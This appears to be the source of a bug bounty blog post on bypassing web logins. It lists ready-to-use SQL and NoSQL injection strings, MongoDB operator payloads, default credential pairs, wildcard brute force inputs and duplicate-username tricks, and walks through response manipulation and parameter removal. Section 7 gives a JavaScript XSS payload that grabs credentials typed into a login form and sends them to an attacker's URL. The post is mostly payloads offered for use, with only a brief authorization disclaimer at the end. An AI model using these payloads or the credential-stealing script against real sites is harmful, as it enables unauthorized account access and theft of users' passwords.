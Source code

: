 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://i.ytimg.com/vi/9wNJE2zaEP8/maxresdefault.jpg"> Web Login Bypassing Techniques
date: 2023-05-29 00:00:02 +730
categories: [Resources, bugbounty]
tags: [bypass,bugbounty,web-login-bypass] # TAG names should always be lowercase
mermaid: true

---
```




Greetings, fellow bug bounty hunters! Let's try to look for oversmarting the web login pages and bypassing tricks
Check out this cool chart that breaks down the different ways we can bypass logins:



# Classification of bypassing techniques: 😎🚀
```mermaid
flowchart LR
    A(Web Login Bypassing Techniques)
    B(SQL Injection)
    C(NoSQL Injection)
    D(Operator-Based Attacks)
    E(Default Credentials)
    F(Wildcard Brute Force)
    G(Registration as Existing User)

    A -->|Explore| B
    A -->|Unleash| C
    A -->|Manipulate| D
    A -->|Break Monotony| E
    A -->|Unleash Chaos| F
    A -->|Add Twist| G


```




## 1. SQL Injection: The Art of Database Mischief 🎭

Injecting SQL queries into login fields is our secret weapon! Here's a taste of the madness we can create:

```sql
- Microsoft, Oracle, PostgreSQL:
    - admin' or '1'='1
    - admin'--
    - admin' or 1=1--
    - admin' or '1'='1'--
    - admin}" or 1=1--

- MySQL:
    - admin'-- -
    - admin'#
    - admin' or 1=1#
    - admin' or 1=1-- -
    - admin' or '1'='1'-- -
    - admin' or '1'='1'#

- Let the chaos reign! 💥
```

[Get the whole cheet-sheet](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass/sql-login-bypass.md)


## 2. NoSQL Injection: Unleashing Madness in NoSQL Realm 🐆

Who said NoSQL databases are immune to our hacking shenanigans? Brace yourselves for some NoSQL injection payloads:


```
- Mongo:

    - admin' || 1==1//
    - admin' || 1==1%00
    - admin' || '1==1
    - admin' || '1'=='1'
```


## 3. Operator-Based Attacks: Dancing with Operators 💃🎩

Operators hold the key to our login bypass extravaganza. Get ready to manipulate and conquer with these operator-based payloads:

```bash
- $ne (Not equal):
    - username[$ne]=xyz&password[$ne]=xyz

- $regex (Regular expressions):
    - username[$regex]=.*&password[$regex]=.*
    - username[$regex]=^xyz&password[$regex]=^xyz

- $exists (Exists in the database):
    - username[$exists]=true&password[$exists]=true

- $nin (Not include):
    - username[$nin][admin]=admin&password[$ne]=xyz

- $gt (Greater than) and $lt (Lower than):
    - username[$gt]=s&password[$gt]=s
    - username[$lt]=s&password[$lt]=s

- The operator symphony begins! 🎩🎶
```

## 4. Default Credentials: Breaking the "Admin:Admin" Monotony 🥱💤


![s](https://pbs.twimg.com/media/FA6ElwUXoAEZHYz.jpg){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Yawn! Default credentials are a bug bounty hunter's best friend. Let's shake things up with some unexpected username/password combos:

```bash
- admin:admin
- admin:password
- admin:password1
- admin:password123
- administrator:password
- administrator:password1
- administrator:password123

- Time to expose those default culprits! 😈🔑
```
[Default-passwords](https://datarecovery.com/rd/default-passwords/)


## 5. Wildcard Brute Force: Unleashing Chaos with Wildcard Magic! 🃏🔥

When wildcards (*) are allowed, the real fun begins! Brace yourselves for the epic wildcard brute force:

```bash
- username = *
- password

 = *

- Turbo Intruder in Burp Suite will be your trusty sidekick for this madness! 💪🦸‍♀️
```

## 6. Registration as Existing User: Adding a Twist to the Game 🎭🔑

Registering as an existing user? Let's spice it up with these variations:

- Register with the same username:
    - `admin`
    - `admin%00`
    - `(space)admin`

Go ahead and test these payloads using the registration form on the target website. Time to make the login system question its existence! 😜


>Some Additional tactics to bypaasssss!
{: .prompt-info }

## 7. CSRF via XSS and see the victims credentials. This is the CSRF payload for it 
```js
<script>
function intercept() {
 
 var user = document.forms[0].elements[0].value;
 var pass = document.forms[0].elements[1].value;
 
 
 var xhr = new XMLHttpRequest();
 
 xhr.open("GET", "https://your-target-url?username/email="+user+"&password="+pass)
 xhr.send();
return false;
 }
 document.forms[0].onsubmit = intercept;
 
</script>
```

## 8. By Manipulating the Response

This method mainly based on Response Status code manipulation and Response Body manipulation. 
- First of all make an account on your target 
- Login with correct credentials and intercepts request in burp suite and analyze the response 
- Try to login with wrong credentials and manipulate the response as you see it with your correct credentials like

```
403 Forbidden  
<redacted>  
{"error":true, "message":"Invalid Token"}
```
<br>

```
200 OK  
<redacted>  
{"success":true}
```
## 9. By Removing Parameter in Request

When you enter wrong credentials the site shows error like username and password is incorrect/does not match, password is incorrect for this username etc,

 - [ ] First you intercept the request and remove the `password parameter` in the request and `forward` the request. 
 - [ ] Then the server sees that the username is available and logs you in to the site. This problem occurs when the server does not analyze the request properly.

![1_gNdDHP3A232KT9R4BA1ERw](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/7eb0b6bf-cfa5-4451-b294-d1a8acfb40a5)
![2](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/38e32544-da62-4851-810d-9a50f826804e)

<br>
<br>



> **Important Note:** While these techniques can be used for legitimate security testing, always ensure that you have proper authorization and permission before attempting any login bypass or brute force attacks. Stay ethical, my friends! 🕵️‍♀️🔒
{: .prompt-tip }

&nbsp;
<br><br>
[Download Login Bypass Payload](https://github.com/thelocalh0st/thelocalh0st.github.io/blob/main/assets/uploads/login-bypass.txt.txt)

![end](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
